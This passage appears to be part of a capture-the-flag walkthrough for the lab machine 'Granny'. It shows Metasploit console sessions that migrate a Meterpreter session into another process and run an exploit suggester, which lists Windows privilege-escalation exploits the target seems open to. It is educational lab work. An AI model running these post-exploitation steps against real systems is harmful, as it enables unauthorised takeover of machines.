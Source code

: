 ```bash  
msf post(migrate) > set SESSION 1
SESSION => 1
msf post(migrate) > exploit 

[*] Running module against GRANNY 
[*] Current server process: rundll32.exe (2540) 
[*] Spawning notepad.exe process to migrate to 
[+] Migrating to 3072 
[+] Successfully migrated to process 3072 
[*] Post module execution completed 
msf post(migrate) > sessions 2 
[*] Starting interaction with 2... 
  
meterpreter > getuid 
Server username: NT AUTHORITY\NETWORK SERVICE 
```

Hurrah! It worked and we can now run common commands.  There's one other post module we want to use now, which will probe the remote box and look for ways we can elevate our privileges.  Right now we're just running as a network service user that can run commands but can't make sweeping changes to the machine.  We want complete control, also known as SYSTEM level privileges.  

To do this, we're going to be looking for privilege escalation vulnerabilities, and luckily there's a module in metasploit which can find them for us.

```bash
msf exploit(ms_ndproxy) > use post/multi/recon/local_exploit_suggester  
msf post(local_exploit_suggester) > show options 
 
Module options (post/multi/recon/local_exploit_suggester): 
 
   Name             Current Setting  Required  Description 
   ----             ---------------  --------  ----------- 
   SESSION                           yes       The session to run this module on. 
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits 
 
msf post(local_exploit_suggester) > set SESSION 1 
SESSION => 1 
msf post(local_exploit_suggester) > exploit 
 
[*] 10.10.10.14 - Collecting local exploits for x86/windows... 
[*] 10.10.10.14 - 36 exploit checks are being tried... 
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable. 
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable. 
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable. 
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated. 
[+] 10.10.10.14 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated. 
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable. 
[*] Post module execution completed
```
